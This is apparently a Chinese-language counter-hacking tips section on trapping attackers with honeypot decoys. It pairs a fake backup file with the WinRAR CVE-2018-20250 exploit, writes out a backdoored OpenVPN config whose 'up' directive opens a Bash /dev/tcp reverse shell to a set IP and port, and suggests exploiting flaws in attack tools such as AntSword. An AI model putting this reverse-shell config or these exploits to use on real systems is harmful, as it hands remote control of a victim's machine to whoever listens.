 
### 技巧篇

技巧篇不过多讲解，懂得自然懂。

#### 虚假备份文件

配合蜜罐部署虚假漏洞，例如备份文件（WWW.rar）配合CVE-2018-20250漏洞。

参考：https://github.com/WyAtu/CVE-2018-20250

#### OpenVPN配置后门

OpenVPN配置文件（**OVPN文件**，是提供给OpenVPN客户端或服务器的配置文件）是可以修改并加入命令的。

OVPN文件最简单的形式如下：

```
remote 192.168.31.137
ifconfig 10.200.0.2 10.200.0.1
dev tun
```

> 以上文件表示，客户端会以开放的，不用身份验证或加密方式去连接IP为192.168.31.137的远程服务，在此过程中，会建立一种名为tun的路由模式，用它来在系统不同客户端间执行点对点协议，例如，这里的tun路由模式下，tun客户端为10.200.0.2，tun服务端为10.200.0.1，也就是本地的tun设备地址。这里的三行OVPN配置文件只是一个简单的示例，真正应用环境中的OVPN文件随便都是数百行，其中包含了很多复杂的功能配置。

OpenVPN 配置功能的 up 命令可以使得添加配置文件后执行我们所想让其执行的命令，官方文档中有说明：https://openvpn.net/community-resources/reference-manual-for-openvpn-2-0/

> 成功启用 TUN/TAP 模式后的 cmd 命令。
> 
> 该cmd命令中包含了一个脚本程序执行路径和可选的多个执行参数。这种执行路径和参数可由单引号或双引号，或者是反斜杠来强调，中间用空格区分。up命令可用于指定路由，这种模式下，发往VPN另一端专用子网的IP流量会被路由到隧道中去。

本质上，up命令会执行任何你指向的脚本程序。如果受害者使用的是支持`/dev/tcp`的Bash命令版本，那么在受害者系统上创建一个反弹控制 shell 轻而易举。就如以下OVPN文件中就可创建一个连接到 192.168.31.138:9090 的反弹shell。

```
remote 192.168.31.137
ifconfig 10.200.0.2 10.200.0.1
dev tun
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/192.168.31.138/9090 0<&1 2>&1&'"
```

![-w797](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15974251626915.jpg)

需要注意的是，up 命令需要成功连接主机才会执行，也就是说192.168.31.137需要真实存在。

#### 兵器漏洞

可以尝试挖掘蚁剑、冰蝎、菜刀、BurpSuite、SQLmap、AWVS的0day漏洞（需要一定的技术水平），或利用历史漏洞部署相关环境进行反打，例如蚁剑：https://gitee.com/mirrors/antSword/blob/master/CHANGELOG.md

历史版本中出现诸多XSS漏洞->RCE：

![-w942](https://chen-blog-oss.oss-cn-beijing.aliyuncs.com/2020-09-03/15974256921135.jpg)
